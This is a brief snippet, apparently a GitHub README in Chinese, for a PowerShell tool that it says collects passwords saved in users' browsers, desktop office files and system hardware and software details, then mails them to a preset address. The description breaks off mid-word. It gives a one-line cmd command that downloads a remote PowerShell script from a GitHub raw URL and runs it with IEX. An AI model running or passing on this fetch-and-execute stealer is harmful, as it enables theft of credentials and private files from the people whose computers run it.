 利用powershell收集用户浏览器中保存的密码，桌面办公文件，电脑硬件软件信息。发送到指定邮

cmd中调用

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/wangyongquan/powershell/master/lesgo.ps1');